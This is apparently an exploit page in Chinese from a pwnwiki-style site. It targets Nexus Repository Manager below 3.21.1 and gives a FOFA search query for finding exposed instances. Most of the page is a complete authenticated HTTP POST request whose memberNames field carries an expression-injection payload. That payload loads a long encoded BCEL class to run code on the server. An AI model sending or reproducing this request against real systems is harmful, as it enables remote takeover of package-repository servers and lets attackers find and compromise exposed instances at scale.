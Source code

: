 <languages /> <translate>

漏洞影響
--------

</translate>

    Nexus < 3.21.1

FOFA
----

    app="Nexus-Repository-Manager"

<translate>

前提條件
--------

</translate> <translate> 漏洞觸發需要任意賬戶權限 </translate>

<translate>

漏洞利用
--------

</translate> <translate> 登錄任意用戶後修改 NXSESSIONID，發送請求包 </translate>

    POST /service/rest/beta/repositories/go/group HTTP/1.1
    Host:
    Connection: keep-alive
    NX-ANTI-CSRF-TOKEN: 0.6153568974227819
    Content-Length: 4789
    X-Requested-With: XMLHttpRequest
    X-Nexus-UI: true
    Content-Type: application/json
    404: "id"
    Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.6153568974227819; NXSESSIONID=66e8bf5f-0544-4d7d-b1d7-970ce5158aff


    {
            "name": "internal",
            "online": true,
            "storage": {
                "blobStoreName": "default",
                "strictContentTypeValidation": true
            },
            "group": {
                "memberNames": ["${' '.getClass().forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$eb$7f$UW$Z$7eN$b2$d9$99L$s$9bd6$9bd$A$xH$80M$80$5dJ$81$96$e5bC$K$e5$S$u$924$YR$ad$93eH$W6$3b$db$d9$d9$Q$d0j$d1Z$ea$adVQ$yj$d1R5$de5$a2$h$q$82h$V$b5$9f$fc$ea7$3f$f6$_$e0$83$3f$7f$8d$cf$99$dd$N$d9d$5b$fc$R$ce$ceyo$e7y$df$f3$3e$ef$cc$db$ef$de$bc$N$60$L$fe$a1$n$IGAVC$N$9cz$$$cfI$89$ab$m$a7$e2i$Nm$f04$e41$n$97$b3$w$s$a5$e4$9c$8a$f3$K$86U$7cR$c5$a74t$e0y$v$fd$b4$8a$cfhX$81$XT$5cP$f0Y$v$fa$9c$82$X5$7c$k$_$a9$b8$a8$e2e$F_P$f1E$V_R$f1e$F_Q$f1$8a$8a$afjx$V_$93$cb$d7$V$5cR$f0$N$N$df$c4e$Nk$f1$z$Nk$f0$9a$82$x$g$ba$e1$c8$cd$b7$e5$d3wT$7cW$fe$be$aea$r$ae$ca$e5$7b$K$be$af$e0$N$81$a07$e6$da$d6I$B$a3$ef$b45a$c5$d3Vf4$3e$e0$cbvP$bb3$95Iy$bb$Fj$a3$5d$83$C$81$5e$e7$a4$z$d0$d4$97$ca$d8G$f2$e3$p$b6$3b$60$8d$a4m$e9$ec$q$ad$f4$a0$e5$a6$e4$be$q$Mxc$a9$9c$40C$9f$3d$91J$c7$e5$c2$88$ea$ced$ba$U3$b4$df$f3$b2$bdN$sc$t$bd$94$93$RhY$A$a17m$e5r$b4o$Y$93Fc$W$ad$d2$95$m$9f$g9MGi$b2$7f$a1$89$e2$da$cf$e5$ed$9cG$f0cL$c2v$x$bd$fa$3d7$95$Z$95$40$5c$3b$97u29$C$N$9euS$9e4$8c$U$NSN$fc$u$ad$bc$e3$be$98$b6$b5$c9qV$u$3c$5c$zNM$969$86$Xh$8e$baN$d2$f6$b1$d7$8c0f$c7$7c$cc$3d$f9S$a7l$d7$3ey$cc$87$r$f5$b9$91y$fd$82$a0E$3b$ea$D$ac$94$84G$a4$f94$T$K$8d$z$wX$d0$f1k$m$a0$Xo$d1$bf$F$c21$X$c4t$edSi$da$c4$f7$a5$ec$b4$bc$d2$d0$C$d3$c3V$96$d8$x$F$y$fc$f9$f3$C$9a$t$_$d1wbM$8b$e7$e4$W$d5$60$fe$G4$3b$e3$b9$e7$fc$xcw$f8$9bA$x$9d$_$bb$b7Uv$c7$b9l$b9CZ$X_$f8$ce$ee$dd$M$d7$d8$efY$c93$c4$e2$9b$91U$K$ae$91$V$q$I$d9$40$S$u8$a8$e0M$bf$f5$af$94$fbX$ebw$f2n$92$t$ca$b8$f5$b2$d9b2$b6$8emx$b4$q$f0$5bP$t$7f$b7$ea$f8$B$7e$u$d0$bc$b8$e3u$fc$IS$3cL$c7$8f$f1$T$j$3f$c5$cf$E$3a$a5QL$g$c5$G$ee$X$aas$a0$a2h$3a$7e$8e_$I$d4y$c5$bc$ba$ff$l$9f$ce$bd$b2Nt$9a$90$a5$d2$f1K$fcJ$c7$af1$z$b0$ceqGc6y$92$cd$d9$b1$d3$b6$e7$9d$8b$e5lw$c2vc$95$8c$d1$f1$h$5c$e7$8d$8e$da$5e$F$F$9a$WUU$c7o$f1$bb$8at$8b7$a7$a0$a0c$G7X$3d$868V$e6M$bd$8cW$a2N$f3$e2$e6$q$Z$b6l$daB$d2$f9$ke$GI$97$e3$r$S$85$abp$88$W$f1$91T$s$3eb$e5$c6$d8$f7$h$93$K$7e$af$e3$sfu$fc$B$b7$d8$n$d59$c2N$$$x$Od$b2y$8f$Qlk$bc$a8c$H$e8$b8$8d$3f$ca$h$be$p$97$3f$95$c3$y$a1$92$8e$3fcZ$c7$5b$f8$8b$80$d0t$fcU$ee$ee$e2o$3a$fe$$$9bc$e5$7d$af$D$e9$b4$3dj$a5$7b$92$92$c1$7b$t$93v$b6H$b4$f0$7d$93$F$d2$f6$f7$60$Z$t$d9$92q$c0$aeN$e6$5d$97$dc$Y$u$N$dc$d6hW$b5$91$db$ccR$3e$c1$cb$b7X$85R$b4$8d$d1$a5$83$a7$eb$7d$u$de$98$b3$bdb$K$a9$e2$m$8e$9e$90$d3$bb$96$91$F$d6F$972$b8$ab$g$a9$95S$8e$7b$c4$g$a7$ff$9a$H$9c_$9e$d5$w$P$u$N$81p$b4$9a$81B$83b$c8$ca$e4$e7$87i$90$3d$e8O$b0H5$94$t$8a$8dv$d8$f6$c6$i$96$e5$f1$w$b0$86$97$9cZ$adP$c5$I$3c$af$e3$bdt$84$92$caL8g$Iu$7b$V$uU$a6$60$d5$g$$$e8$83c$f9$8c$97$92$a9$fb$5c$xo$o$Vu$u$89$e5$e8$b7$t$ed$a4$404Z$e5$9d$d3U$f5e$p$a7$c0$C$92$b0$3b$cb$a1$x$d9$p$b3$8eVU$c8$k$J$dfW$95$5eSR$aa$fas$ab$f82$b2$b2Y$3b$c3$falx$40S$yz$97$a9$9eS$k$mu$fe$ebv$d1$j$97$p$f0$b4$bad$da$c9$d9X$c5$ef$aa$m$bf$b7X19$b3$f9T$c3g$8es$ae$8fq$X$e7$af$e0o$5d$f7$M$c4$b4$af$de$ce5$e8$LU$q$b8$eaE$D$ec$c0N_$b6$ab$ec$i$e8$a4$dd2$c6$7es$W5C3$a8$bd$8e$c0$N$d4$j2$82$86R$80$da$b7$3eP$40$fd$fa$ee$C$b4$c3F$c3$N$e8G6$g$8d$94$t$Cf$40j$cc$c0$G$aa$ee$m$c4$bfD$9d$d1D$8bD$d0$M$g$cd$d2F1$V$df$a6$$$a1$9a$ea$edm$f5$b5$db$b4$88$W$a9$bf$s$b6$9ajD$db$9ch0$h$ee$8a$d5$a6b60FB7$f5$bb$a2$d9$d4$Lh$v$c00$c2$F$b4$5e$e1$d8$93$fbD$a3$d9hDjo$a1$ad$80vS$e7CG$Bf$od$86$a4$b2$c9l2$96$95$95$a1$b2$b2$d9$q$86$Wcy$80$8a$a1ZcE$bf$d46s$d7$c1$dd$H$b83$ef$60E$a2$85$be$P$z$f15LC$fa$7e$b0$ac0J$8a$3bX$99$I$Hoa$FC$ac$ea$l$K$Y$l$ea$l$aa3$5b$fa$T$ad7$b0$dal$z$a03$R$99$c5$9a$a1Y$ac$j2$p$F$ac$9bAt$G$5d$89$b6Yt$b3$b6$eb$T$ed$s$e3m$YJt$dcE$d8l7$Zs$a3$R$e3r$7cj$ee$j$b3$bd$80x$c24$c3$a6Y$c0$s$93$f9$3f$3c$85$ba$84$fe$a2$s$a6$de$7d$7b$K$81C$d3$bc$d8IqI$5c$c6fh$e2$aax$D$8f$m$e0_$f5U$ac$e3Z$cf$fehD$IM$fcxn$c6r$84$d99m$d4t$b0CL$f6$cdr$f4$e2$n$i$e4Go$3f5CX$8d$i$3a1$c9$af$e5$L$b4z$JQ$5cF$X$5e$c7z$5c$c7$G$be$93b$f8$t6$e1$k$k$W$3a6$8b$u$k$R$bb$b0E$3c$89$ad$e2$Zl$T6$k$TYl$X$_$60$87$b8$88$5d$e2$V$ec$W$97$d0Kt$3d$e25$ac$WW$b1$9f$I$f7$89k$3cQ$b6$e0$3bhg$ec$7b$d8$8d$P$T$e5u$fc$h$8f$a3$87ho$e2_$d8CY$TO$7b$8b$I$7b$88$fd$k$z$9f$c0$5e$b4$f0$e4$8b$d8G$99$c1$f3$cf$e0I$ecG$98$u$Gq$80Q$5b$89$a5$P$87$f8$3fBD$8f$e20$8e$a0$8d$b8bx$KG$d1$$$c6$99$d9G$Y$a5$83$f8t$i$e3$93$89$L$c2$60$f6$3d$dc$e7$c4$g$M$f0$a9$B$n$f1j$89Wm$e2e$3c$cd$e8$C$ab$c4$f38Nm$N$d6$89$b3$f8$u$f1$d5$o$$$iVm$905$ef$V$c38$81a$S$ea$a0$Y$c03$d4$G$d1$_$O$e1c$d4$w$f8$b8$8cD$cfb$b6$cf2$dbb$8e$cf2$c7OP7$8d$fa9$d8hP$60$v$YQ$c0o$80$93$feCh$feA$90$aes$fc$d7$f1$be6$be$b8$a8$99_m$7f$3d$a5$60T$c1$98$82$94$82$d3$c0$7f$b1$8c$9a9$Y$d0$l$U$Q$d8$a3$e0$cc$7f$m$e6$98$j$fc$5dZ$8e$9eq$7f$aed$fe$H$c3$e0$Q$5e$fb$N$A$A').newInstance()}"]
            }
    }

<translate>

參考
----

</translate> <https://short.pwnwiki.org/?c=Al2liL>